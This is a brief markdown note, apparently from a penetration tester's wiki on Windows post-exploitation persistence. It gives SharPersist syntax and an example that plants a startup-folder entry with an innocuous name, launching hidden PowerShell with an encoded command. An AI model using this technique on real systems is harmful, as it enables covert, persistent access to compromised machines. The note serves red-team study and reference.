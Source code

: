 # Binaries

## 03 - SharPersist

```
C:\> SharPersist.exe -t startupfolder -c <command> -a [args] -f "<StartUp Name>" -m <add | remove | check | list>

C:\> SharPersist.exe -t startupfolder -c "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64_encoded>" -f "UserEnvSetup" -m add
```

## 04 - Metasploit

---
## References

- [[Windows Post Exploitation Persistence References]]